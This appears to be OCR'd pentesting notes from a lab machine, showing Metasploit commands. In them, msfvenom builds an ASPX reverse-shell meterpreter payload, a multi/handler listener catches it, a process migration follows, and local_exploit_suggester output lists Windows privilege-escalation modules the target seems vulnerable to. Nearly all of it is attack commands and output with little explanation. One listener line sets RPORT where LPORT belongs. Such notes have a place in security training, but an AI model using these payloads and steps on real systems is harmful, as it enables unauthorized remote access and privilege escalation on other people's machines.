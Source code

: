 
#Migrate the meterpreter pid to another once connected (requires Token on windows)
meterpreter > migrate 3820
[-] Process already running at PID 3820



#Create a reverse shell for use in a webframe work
msfvenom -p windows/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=4444 -f aspx > devel1.aspx

use multi/handle
set payload windows/meterpreter/reverse_tcp
set LHOST x.x.x.x
set RPORT 4444
set ExitOnSession false
exploit -j



#Check meterpreter session against supported local exploits in metasploit once conected
meterpreter > background


#Run session against available metasploit exploits
msf5 exploit(multi/handler) > use post/multi/recon/local_exploit_suggester
msf5 post(multi/recon/local_exploit_suggester) > sessions

Active sessions
===============

  Id  Name  Type                     Information              Connection
  --  ----  ----                     -----------              ----------
  2         meterpreter x86/windows  IIS APPPOOL\Web @ DEVEL  x.x.x.x:4444 -> x.x.x.x:49160 (x.x.x.x)


msf5 post(multi/recon/local_exploit_suggester) > set session 2
session => 2
msf5 post(multi/recon/local_exploit_suggester) > run

[*] x.x.x.x - Collecting local exploits for x86/windows...
[*] x.x.x.x - 29 exploit checks are being tried...
[+] x.x.x.x - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] x.x.x.x - exploit/windows/local/ms10_015_kitrap0d: The target service is running, but could not be validated.
[+] x.x.x.x - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] x.x.x.x - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] x.x.x.x - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] x.x.x.x - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] x.x.x.x - exploit/windows/local/ms15_004_tswbproxy: The target service is running, but could not be validated.
[+] x.x.x.x - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] x.x.x.x - exploit/windows/local/ms16_016_webdav: The target service is running, but could not be validated.
[+] x.x.x.x - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The target service is running, but could not be validated.
[+] x.x.x.x - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] x.x.x.x - exploit/windows/local/ms16_075_reflection_juicy: The target appears to be vulnerable.
[+] x.x.x.x - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed
